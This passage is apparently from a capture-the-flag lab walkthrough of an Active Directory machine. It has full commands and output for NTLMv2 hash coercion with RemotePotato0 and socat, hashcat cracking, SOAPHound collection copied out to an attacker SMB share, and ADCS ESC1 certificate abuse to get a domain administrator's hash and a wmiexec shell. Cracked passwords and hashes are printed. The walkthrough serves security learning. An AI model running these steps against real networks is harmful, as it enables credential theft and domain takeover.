Rule Name:                            Remote Scheduled Tasks Management (RPC)
Rule Name:                            Core Networking - Destination Unreachable (ICMPv6-In)
Rule Name:                            Cast to Device streaming server (RTSP-Streaming-In)
Rule Name:                            Network Discovery (WSD EventsSecure-In)
Rule Name:                            COM+ Remote Administration (DCOM-In)
Rule Name:                            Core Networking - Multicast Listener Done (ICMPv6-In)
Rule Name:                            File and Printer Sharing (NB-Datagram-Out)
Rule Name:                            Connected User Experiences and Telemetry
Rule Name:                            AllJoyn Router (UDP-In)
Rule Name:                            AllJoyn Router (TCP-In)
Rule Name:                            Windows Defender Firewall Remote Management (RPC)
Rule Name:                            Network Discovery (WSD Events-Out)
Rule Name:                            Core Networking - IPHTTPS (TCP-In)
Rule Name:                            Core Networking - Dynamic Host Configuration Protocol (DHCP-Out)
Rule Name:                            Core Networking - Packet Too Big (ICMPv6-In)
Rule Name:                            Routing and Remote Access (L2TP-In)
Rule Name:                            Cast to Device UPnP Events (TCP-In)
Rule Name:                            Core Networking - Multicast Listener Report (ICMPv6-Out)
Rule Name:                            Virtual Machine Monitoring (Echo Request - ICMPv6-In)
Rule Name:                            TPM Virtual Smart Card Management (TCP-Out)
Rule Name:                            AllJoyn Router (TCP-Out)
Rule Name:                            mDNS (UDP-In)
Rule Name:                            Remote Scheduled Tasks Management (RPC-EPMAP)
Rule Name:                            Virtual Machine Monitoring (Echo Request - ICMPv4-In)
Rule Name:                            Cast to Device streaming server (RTP-Streaming-Out)
Rule Name:                            Netlogon Service (NP-In)
Rule Name:                            Core Networking - Time Exceeded (ICMPv6-Out)
Rule Name:                            Network Discovery (Pub WSD-Out)
Rule Name:                            TPM Virtual Smart Card Management (TCP-Out)
Rule Name:                            Core Networking Diagnostics - ICMP Echo Request (ICMPv6-In)
Rule Name:                            File and Printer Sharing (SMB-QUIC-In)
Rule Name:                            TPM Virtual Smart Card Management (TCP-In)
Rule Name:                            TPM Virtual Smart Card Management (DCOM-In)
Rule Name:                            Remote Volume Management - Virtual Disk Service Loader (RPC)
Rule Name:                            Cast to Device SSDP Discovery (UDP-In)
Rule Name:                            BranchCache Hosted Cache Client (HTTP-Out)
Rule Name:                            Core Networking - Multicast Listener Query (ICMPv6-Out)
Rule Name:                            Windows Device Management Device Enroller (TCP out)
Rule Name:                            Remote Service Management (NP-In)
Rule Name:                            AllJoyn Router (UDP-Out)
Rule Name:                            Core Networking - Neighbor Discovery Advertisement (ICMPv6-Out)
Rule Name:                            Network Discovery (UPnP-In)
Rule Name:                            Distributed Transaction Coordinator (RPC-EPMAP)
Rule Name:                            File and Printer Sharing (SMB-In)
Rule Name:                            Remote Desktop - Shadow (TCP-In)
Rule Name:                            Microsoft Media Foundation Network Source OUT [TCP ALL]
Rule Name:                            Core Networking - Teredo (UDP-In)
Rule Name:                            File and Printer Sharing (Echo Request - ICMPv4-In)
Rule Name:                            Cast to Device functionality (qWave-TCP-In)
Rule Name:                            Cast to Device streaming server (HTTP-Streaming-In)
Rule Name:                            Network Discovery (NB-Datagram-In)
Rule Name:                            Core Networking - DNS (UDP-Out)
Rule Name:                            Core Networking - Parameter Problem (ICMPv6-In)
Rule Name:                            File and Printer Sharing (NB-Session-In)
Rule Name:                            Remote Service Management (RPC-EPMAP)
Rule Name:                            Remote Service Management (RPC)
Rule Name:                            Core Networking - Internet Group Management Protocol (IGMP-Out)
Rule Name:                            Windows Remote Management - Compatibility Mode (HTTP-In)
Rule Name:                            Network Discovery (SSDP-In)
Rule Name:                            Core Networking - IPHTTPS (TCP-Out)
Rule Name:                            Core Networking - Neighbor Discovery Advertisement (ICMPv6-In)
Rule Name:                            Microsoft Media Foundation Network Source IN [TCP 554]
Rule Name:                            Core Networking - Router Advertisement (ICMPv6-Out)
Rule Name:                            File and Printer Sharing (Echo Request - ICMPv6-Out)
Rule Name:                            File and Printer Sharing (Spooler Service - RPC-EPMAP)
Rule Name:                            Virtual Machine Monitoring (NB-Session-In)
Rule Name:                            Network Discovery (LLMNR-UDP-Out)
Rule Name:                            DIAL protocol server (HTTP-In)
Rule Name:                            File and Printer Sharing over SMBDirect (iWARP-In)
Rule Name:                            Key Management Service (TCP-In)
Rule Name:                            Core Networking - Group Policy (LSASS-Out)
Rule Name:                            File and Printer Sharing (NB-Session-Out)
Rule Name:                            Remote Desktop - (TCP-WSS-In)
Rule Name:                            Cast to Device functionality (qWave-UDP-Out)
Rule Name:                            Network Discovery (WSD EventsSecure-Out)
Rule Name:                            Windows Management Instrumentation (DCOM-In)
Rule Name:                            Core Networking - Router Solicitation (ICMPv6-In)
Rule Name:                            Virtual Machine Monitoring (DCOM-In)
Rule Name:                            Windows Management Instrumentation (WMI-Out)
Rule Name:                            Core Networking - Teredo (UDP-Out)
Rule Name:                            TPM Virtual Smart Card Management (TCP-In)
Rule Name:                            iSCSI Service (TCP-In)
Rule Name:                            Remote Volume Management - Virtual Disk Service (RPC)
Rule Name:                            Routing and Remote Access (PPTP-In)
Rule Name:                            Core Networking - Multicast Listener Done (ICMPv6-Out)
Rule Name:                            File and Printer Sharing (NB-Name-In)
Rule Name:                            Virtual Machine Monitoring (RPC)
Rule Name:                            Windows Device Management Certificate Installer (TCP out)
Rule Name:                            Network Discovery (NB-Name-In)
Rule Name:                            Delivery Optimization (TCP-In)
Rule Name:                            Performance Logs and Alerts (TCP-In)
Rule Name:                            Windows Defender Firewall Remote Management (RPC-EPMAP)
Rule Name:                            Cast to Device functionality (qWave-UDP-In)
Rule Name:                            Windows Remote Management (HTTP-In)
Rule Name:                            Windows Management Instrumentation (WMI-In)
Rule Name:                            mDNS (UDP-Out)
Rule Name:                            Core Networking Diagnostics - ICMP Echo Request (ICMPv4-Out)
Rule Name:                            Windows Management Instrumentation (ASync-In)
Rule Name:                            SNMP Trap Service (UDP In)
Rule Name:                            Windows Device Management Enrollment Service (TCP out)
Rule Name:                            Remote Event Monitor (RPC)
Rule Name:                            Core Networking Diagnostics - ICMP Echo Request (ICMPv6-Out)
Rule Name:                            Core Networking - Multicast Listener Report v2 (ICMPv6-Out)
Rule Name:                            Microsoft Media Foundation Network Source IN [UDP 5004-5009]
Rule Name:                            Remote Volume Management (RPC-EPMAP)
Rule Name:                            Cast to Device streaming server (RTSP-Streaming-In)
Rule Name:                            Remote Event Monitor (RPC-EPMAP)
Rule Name:                            Core Networking - Neighbor Discovery Solicitation (ICMPv6-In)
Rule Name:                            Core Networking - Router Solicitation (ICMPv6-Out)
Rule Name:                            BranchCache Hosted Cache Server (HTTP-In)
Rule Name:                            File and Printer Sharing (SMB-Out)
Rule Name:                            Cast to Device streaming server (RTCP-Streaming-In)
Rule Name:                            iSCSI Service (TCP-Out)
Rule Name:                            Network Discovery (UPnPHost-Out)
Rule Name:                            Inbound Rule for Remote Shutdown (TCP-In)
Rule Name:                            File and Printer Sharing (Echo Request - ICMPv4-Out)
Rule Name:                            Cast to Device streaming server (RTP-Streaming-Out)
Rule Name:                            Distributed Transaction Coordinator (RPC)
Rule Name:                            Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In)
Rule Name:                            File and Printer Sharing (SMB-QUIC-Out)
Rule Name:                            Cast to Device streaming server (RTP-Streaming-Out)
Rule Name:                            File and Printer Sharing (Spooler Service - RPC)
Rule Name:                            TPM Virtual Smart Card Management (DCOM-In)
Rule Name:                            Routing and Remote Access (GRE-In)
Rule Name:                            Core Networking - Dynamic Host Configuration Protocol (DHCP-In)
Rule Name:                            Core Networking - Destination Unreachable Fragmentation Needed (ICMPv4-In)
Rule Name:                            Core Networking - Router Advertisement (ICMPv6-In)
Rule Name:                            Core Networking - Parameter Problem (ICMPv6-Out)
Rule Name:                            Cast to Device streaming server (RTCP-Streaming-In)
Rule Name:                            BranchCache Peer Discovery (WSD-In)
Rule Name:                            mDNS (UDP-Out)
Rule Name:                            Delivery Optimization (UDP-In)
Rule Name:                            Remote Event Log Management (NP-In)
Rule Name:                            SNMP Trap Service (UDP In)
Rule Name:                            Remote Desktop - (TCP-WS-In)
Rule Name:                            Network Discovery (LLMNR-UDP-In)
Rule Name:                            Core Networking - IPv6 (IPv6-In)
Rule Name:                            Remote Event Log Management (RPC)
Rule Name:                            Network Discovery (NB-Name-Out)
Rule Name:                            Network Discovery (NB-Datagram-Out)
Rule Name:                            Core Networking - Packet Too Big (ICMPv6-Out)
Rule Name:                            Routing and Remote Access (L2TP-Out)
Rule Name:                            Distributed Transaction Coordinator (TCP-Out)
Rule Name:                            Cast to Device functionality (qWave-TCP-Out)
Rule Name:                            BranchCache Hosted Cache Server(HTTP-Out)
Rule Name:                            Network Discovery (UPnP-Out)
```

looking at the custom tcp rule we can see that the it allow traffic between 8000-9000 port !
```bash
PS C:\Users\simon.watson> netsh advfirewall firewall show rule name="Custom TCP Allow" verbose                                             
                                                   
Rule Name:                            Custom TCP Allow
----------------------------------------------------------------------
Enabled:                              Yes      
Direction:                            In        
Profiles:                             Domain,Private,Public           
Grouping:                                                                                                                                                                            
LocalIP:                              Any
RemoteIP:                             Any
Protocol:                             TCP
LocalPort:                            8000-9000
RemotePort:                           Any
Edge traversal:                       No
InterfaceTypes:                       Any
Security:                             NotRequired
Rule source:                          Local Setting
Action:                               Allow
Ok.
```


Rerun the coercion command in both terminal to capture the NTLMv2 hash
`Terminal 1`
```bash
PS C:\Users\simon.watson> .\RemotePotato0.exe -m 2 -x 10.10.17.130 -p 8888 -s 1
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 8888
[*] Example Network redirector:
        sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:8888
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] RPC relay server listening on port 9997 ...
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] Starting RogueOxidResolver RPC Server listening on port 8888 ... 
[*] IStoragetrigger written: 106 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 8888
[+] User hash stolen!

NTLMv2 Client   : AWSJPDC0522
NTLMv2 Username : SHIBUYA\Nigel.Mills
NTLMv2 Hash     : Nigel.Mills::SHIBUYA:7a1078285fcd4be7:9e6b270575fbece0f073d48c4ea7807b:010100000000000087bce842c977dd017645bcfd31c523d80000000002000e005300480049004200550059004100010016004100570053004a0050004400430030003500320032000400140073006800690062007500790061002e0076006c0003002c004100570053004a0050004400430030003500320032002e0073006800690062007500790061002e0076006c000500140073006800690062007500790061002e0076006c000700080087bce842c977dd0106000400060000000800300030000000000000000100000000200000369b25132ec91c7e77891d9125e38cf28945dfdfd4310e63e9b1c1d1eef827ed0a00100000000000000000000000000000000000090000000000000000000000
```

`Termianl 2`
```bash
──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.234.42:8888
```

 We now have Nigel’s NTLMv2 response. Two options: relay it in real time to another service (tools like `ntlmrelayx` do this), or crack it offline. Relaying needs a live session and a target service that accepts NTLM  this DC has NTLM disabled domain-wide, which rules out SMB/LDAP relay. That leaves cracking. NTLMv2 is much slower to crack than raw NT hashes
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ hashcat Nigel.Mills_hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2845/5691 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

5600 | NetNTLMv2 | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (3032 MB free)
                                                                                                                                                                                     
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt                                                                                                                                       
* Passwords.: 14344385                                                                                                                                                               
* Bytes.....: 139921507                                                                                                                                                              
* Keyspace..: 14344385                                                                                                                                                               
                                                                                                                                                                                     
NIGEL.MILLS::SHIBUYA:7a1078285fcd4be7:9e6b270575fbece0f073d48c4ea7807b:010100000000000087bce842c977dd017645bcfd31c523d80000000002000e005300480049004200550059004100010016004100570053004a0050004400430030003500320032000400140073006800690062007500790061002e0076006c0003002c004100570053004a0050004400430030003500320032002e0073006800690062007500790061002e0076006c000500140073006800690062007500790061002e0076006c000700080087bce842c977dd0106000400060000000800300030000000000000000100000000200000369b25132ec91c7e77891d9125e38cf28945dfdfd4310e63e9b1c1d1eef827ed0a00100000000000000000000000000000000000090000000000000000000000:Sail2Boat3
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: NIGEL.MILLS::SHIBUYA:7a1078285fcd4be7:9e6b270575fbe...000000
Time.Started.....: Thu Nov 19 02:02:50 2026 (0 secs)
Time.Estimated...: Thu Nov 19 02:02:50 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2829.2 kH/s (2.26ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 229376/14344385 (1.60%)
Rejected.........: 0/229376 (0.00%)
Restore.Point....: 221184/14344385 (1.54%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: froggy27 -> 17021982
Hardware.Mon.#01.: Temp: 51c Util: 13%

Started: Thu Nov 19 02:02:48 2026
Stopped: Thu Nov 19 02:02:52 2026
```

## Enumeration - SOAPHound over ADWS

it did crack the password   : ) also we can `SOAPhound.exe` to enumerate the ACL from  the powershell since before we had the native windows issue so we may try now : ) 

 First pass: `--buildcache` walks the directory to build a local SID ↔ GUID ↔ DN mapping file. Nothing is written to BloodHound format yet; this cache is what the next passes consult instead of hammering the DC for lookups.
```Powershell
PS C:\Users\simon.watson> .\SOAPHound.exe --user 'shibuya.vl\Nigel.Mills' --password 'Sail2Boat3' --domain shibuya.vl --dc AWSJPDC0522.shibuya.vl --buildcache -c C:\Users\simon.watson\cache.json -o C:\Users\simon.watson\bh
-------------
Generating cache
ADWS request with ldapbase (DC=shibuya,DC=vl), ldapquery: (!soaphound=*) and ldapproperties: [objectSid, objectGUID, distinguishedName]
Generating cache complete
```

then we can use  `--certdump` pulls the AD Certificate Services configuration the CA(s) and every published certificate template  along with their security descriptors. This is the ADCS attack surface view (what certipy’s `find -vulnerable` reports, straight from the directory).
```Powershell
PS C:\Users\simon.watson> .\SOAPHound.exe --user 'shibuya.vl\Nigel.Mills' --password 'Sail2Boat3' --domain shibuya.vl --dc AWSJPDC0522.shibuya.vl --certdump -c C:\Users\simon.watson\cache.json -o C:\Users\simon.watson\bh
Loading cache from disk
Loaded cache with stats: 685 ID to type mappings.
 685 name to SID mappings.

-------------
Gathering PKI cache
ADWS request with ldapbase (CN=Configuration,DC=shibuya,DC=vl), ldapquery: (!soaphound=*) and ldapproperties: [name, certificateTemplates]
Gathering PKI cache complete
-------------
Gathering PKI data
ADWS request with ldapbase (CN=Configuration,DC=shibuya,DC=vl), ldapquery: (!soaphound=*) and ldapproperties: [name, displayName, nTSecurityDescriptor, objectGUID, dNSHostName, nTSecurityDescriptor, certificateTemplates, cACertificate, msPKI-Minimal-Key-Size, msPKI-Certificate-Name-Flag, msPKI-Enrollment-Flag, msPKI-Private-Key-Flag, pKIExtendedKeyUsage, pKIOverlapPeriod, pKIExpirationPeriod]
Gathering PKI data complete
-------------
Output files generated in C:\Users\simon.watson\bh\
```
At  last `--bhdump` is the main collection  users, groups, computers, OUs, GPOs, containers, domain trusts with ACLs, SPNs, delegation flags, and group memberships, emitted as the BloodHound JSON format. `--nolaps` skips LAPS password reads (we don’t need them and it avoids the LAPS ACL check that can slow things on large domains)
```bash
PS C:\Users\simon.watson> C:\Users\simon.watson\SOAPHound.exe --user 'shibuya.vl\Nigel.Mills' --password 'Sail2Boat3' --domain shibuya.vl --dc AWSJPDC0522.shibuya.vl --bhdump -c C:\Users\simon.watson\cache.json -o C:\Users\simon.watson\bh --nolaps
Loading cache from disk
Loaded cache with stats: 685 ID to type mappings.
 685 name to SID mappings.

-------------
Gathering AD data
ADWS request with ldapbase (DC=shibuya,DC=vl), ldapquery: (!soaphound=*) and ldapproperties: [name, sAMAccountName, cn, dNSHostName, objectSid, objectGUID, primaryGroupID, distinguishedName, lastLogonTimestamp, pwdLastSet, servicePrincipalName, description, operatingSystem, sIDHistory, nTSecurityDescriptor, userAccountControl, whenCreated, lastLogon, displayName, title, homeDirectory, userPassword, unixUserPassword, scriptPath, adminCount, member, msDS-Behavior-Version, msDS-AllowedToDelegateTo, gPCFileSysPath, gPLink, gPOptions]        
Gathering AD data complete
-------------
Gathering DomainTrusts data
ADWS request with ldapbase (DC=shibuya,DC=vl), ldapquery: (trustType=*) and ldapproperties: [trustAttributes, trustDirection, name, securityIdentifier]
Gathering DomainTrusts data complete
-------------
Output files with prefix "full" generated in C:\Users\simon.watson\bh\
-------------
```

we can check everything has been imported or noted time to serve this to our `attacker-machine`
```Powershell
PS C:\Users\simon.watson\bh> ls


    Directory: C:\Users\simon.watson\bh


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/18/2026   6:06 PM           3697 CA.json
-a----        11/18/2026   6:06 PM          61667 CATemplate.json
-a----        11/18/2026   6:10 PM           8822 full_outputComputers.json
-a----        11/18/2026   6:10 PM          20001 full_outputContainers.json
-a----        11/18/2026   6:10 PM           2010 full_outputDomains.json
-a----        11/18/2026   6:10 PM           5207 full_outputGPOs.json
-a----        11/18/2026   6:10 PM         100778 full_outputGroups.json
-a----        11/18/2026   6:10 PM          45540 full_outputOUs.json
-a----        11/18/2026   6:10 PM         839118 full_outputUsers.json
```

to transfer the json file i would be use `smb server
`Terminal -1`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ impacket-smbserver share . -smb2support -username penguin -password penguin123
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
```
then we can transfer the file from ssh 
`Terminal -2`
```Powershell
PS C:\Users\simon.watson\bh> copy C:\Users\simon.watson\bh* \\10.10.17.130\share\
```

After that we can import the json files to Bloodhound to map the relation

 `Nigel is a member of T1_ADMINS, which has Enroll rights on the SHIBUYAWEB certificate template a custom template restricted to that group.`

> `The combination of Enrollee Supplies Subject + Client Authentication EKU + no manager approval + a controllable group with Enroll rights is  ESC1:.`



## Domain Admin - ADCS ESC1

The template is ESC1-exploitable: it allows the requester to supply the subject (`enrollee supplies subject` + `Client Authentication` EKU + no manager approval + `T1_ADMINS` has Enroll), so we request a cert with a UPN of the target we want to impersonate.

Nigel’s TGT will be the authentication material for the next few steps, so we request it once and export `KRB5CCNAME` to point at the ccache.
```bash
nguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u Nigel.Mills -p 'Sail2Boat3' -k --generate-tgt /home/penguin/OSCP/Shibuya/Nigel.Mills

SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\Nigel.Mills:Sail2Boat3 
SMB         10.129.234.42   445    AWSJPDC0522      [+] TGT saved to: /home/penguin/OSCP/Shibuya/Nigel.Mills.ccache
SMB         10.129.234.42   445    AWSJPDC0522      [+] Run the following command to use the TGT: export KRB5CCNAME=/home/penguin/OSCP/Shibuya/Nigel.Mills.ccache

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ export KRB5CCNAME=/home/penguin/OSCP/Shibuya/Nigel.Mills.ccache

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ klist 
Ticket cache: FILE:/home/penguin/OSCP/Shibuya/Nigel.Mills.ccache
Default principal: Nigel.Mills@SHIBUYA.VL

Valid starting     Expires            Service principal
11/19/26 02:04:00  11/19/26 12:04:00  krbtgt/SHIBUYA.VL@SHIBUYA.VL
        renew until 11/20/26 02:03:59

```

The template enforces a minimum 4096-bit RSA key, so the first request fails with `CERTSRV_E_KEY_LENGTH`. We retry with `-key-size 4096`.


then we can request for an adminstrator certificate
```bash

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ certipy-ad req -u 'Nigel.Mills@shibuya.vl' -k -no-pass -ca 'SHIBUYA-AWSJPDC0522-CA' -template 'ShibuyaWeb' -upn 'Administrator@shibuya.vl' -target AWSJPDC0522.shibuya.vl -dc-ip 10.129.234.42 -dc-host AWSJPDC0522.shibuya.vl -key-size 4096
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 6
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@shibuya.vl'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

`Administrator@shibuya.vl` isn’t in the KDC  this domain renamed the built-in RID-500 account to `_admin`. We regenerate the cert with the correct UPN, and because the DC has the May 2022 strong-mapping patch (KB5014754), we also embed the target SID
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ certipy-ad auth -pfx administrator.pfx -username Administrator -domain shibuya.vl -dc-ip 10.129.234.42
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@shibuya.vl'
[*] Using principal: 'administrator@shibuya.vl'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```



this domain renamed the built-in RID-500 account to `_admin`. We regenerate the cert with the correct UPN

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ certipy-ad req -u 'Nigel.Mills@shibuya.vl' -k -no-pass -ca 'SHIBUYA-AWSJPDC0522-CA' -template 'ShibuyaWeb' -upn '_admin@shibuya.vl' -sid 'S-1-5-21-87560095-894484815-3652015022-500' -target AWSJPDC0522.shibuya.vl -dc-ip 10.129.234.42 -dc-host AWSJPDC0522.shibuya.vl -key-size 4096 -out _admin
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 10
[*] Successfully requested certificate
[*] Got certificate with UPN '_admin@shibuya.vl'
[*] Certificate object SID is 'S-1-5-21-87560095-894484815-3652015022-500'
[*] Saving certificate and private key to '_admin.pfx'
File '_admin.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to '_admin.pfx'
```

 PKINIT with the cert → TGT for `_admin` and the NT hash.
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ certipy-ad auth -pfx _admin.pfx -username _admin -domain shibuya.vl -dc-ip 10.129.234.42
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: '_admin@shibuya.vl'
[*]     SAN URL SID: 'S-1-5-21-87560095-894484815-3652015022-500'
[*]     Security Extension SID: 'S-1-5-21-87560095-894484815-3652015022-500'
[*] Using principal: '_admin@shibuya.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to '_admin.ccache'
[*] Wrote credential cache to '_admin.ccache'
[*] Trying to retrieve NT hash for '_admin'
[*] Got hash for '_admin@shibuya.vl': aad3b435b51404eeaad3b435b51404ee:bab5b2a004eabb11d865f31912b6b430
```


With `_admin hash` and a TGT, we open a shell on the DC via wmiexec over Kerberos and read the root flag
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ export KRB5CCNAME=/home/penguin/OSCP/Shibuya/_admin.ccache

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ impacket-wmiexec -k -no-pass shibuya.vl/_admin@AWSJPDC0522.shibuya.vl -dc-ip 10.129.234.42
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>cd Users
C:\Users>cd ADMINISTRATOR
C:\Users\ADMINISTRATOR>cd Desktp
The system cannot find the path specified.

C:\Users\ADMINISTRATOR>cd Desktop
dC:\Users\ADMINISTRATOR\Desktop>type root.txt
5b150cc71e974d37624299cdd83798f1
C:\Users\ADMINISTRATOR\Desktop>
```
